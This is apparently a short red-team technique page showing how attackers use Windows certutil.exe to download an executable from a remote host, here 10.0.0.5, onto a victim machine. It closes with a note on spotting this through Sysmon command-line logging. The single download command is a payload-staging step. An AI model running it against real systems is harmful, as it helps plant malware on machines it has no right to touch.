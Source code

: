 ```yaml
---
layout: post
title: "downloading file with certutil"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /downloading-file-with-certutil/
---
```


---
layout: post
title: "downloading file with certutil"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /downloading-file-with-certutil/
---

---
description: Downloading additional files to the victim system using native OS binary.
---

# Downloading Files with Certutil

## Execution

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

![](../../.gitbook/assets/certutil-download.gif)

## Observations

Sysmon commandling logging is a good place to start for monitoring suspicious `certutil.exe` behaviour:

![](../../.gitbook/assets/certutil-sysmon.png)

@spotheplanet
